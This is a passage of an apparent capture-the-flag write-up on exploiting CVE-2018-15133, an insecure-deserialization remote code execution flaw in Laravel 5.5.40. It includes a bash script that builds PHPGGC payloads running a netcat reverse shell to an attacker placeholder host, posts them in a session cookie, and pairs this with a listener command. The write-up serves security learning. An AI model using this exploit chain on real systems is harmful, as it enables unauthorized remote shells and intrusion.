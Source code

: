 Let's replace the mysterious cookie with this forged cookie and refresh the page.

Nothing happened...

Well since the data is serialized, there is a chance that the deserialization is done insecurely. If so, there might be a possibility to achieve remote command execution through it.

<br />

#### Exploitation

Searching exploits for Laravel 5.5.40 returns a single match:

![Searchsploit](./attachments/search_for_rce.png)

The exploit [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133) is RCE through insecure deserialization.

In the original CVE the data is passed through the HTTP X-XSRF-TOKEN header, but in this scenario the Cookie HTTP header should be used instead.

A PoC script for it can be found on [GitHub](https://github.com/kozmic/laravel-poc-CVE-2018-15133/blob/master/cve-2018-15133.php).

![PoC script](./attachments/poc_script.png)

The script requires the APP_KEY and a payload. Fortunately the payloads can be crafted with tools such as [PHPGGC](https://github.com/ambionics/phpggc).

Let's create a small automation script that passes all the different payloads generated by PHPGGC to the CVE-2018-15133 PoC script.

```bash
#!/bin/bash

for i in $(seq 1 7); do
phpggc Laravel/RCE$i system 'nc <ATTACKER IP> <ATTACKER PORT> -e /bin/sh' -b > payload.txt

./cve-2018-15133.php <APPKEY> $(cat payload.txt) | grep ^X-XSRF-TOKEN |cut -d' ' -f2- > token.txt

curl -X GET -H "Cookie: blog_session=$(cat token.txt)" http://46.101.23.188:30975/
```

Let's start a listener on our attacker machine with `nc -lvp <PORT>`.

Let's run the script and see if a connection back is initiated.
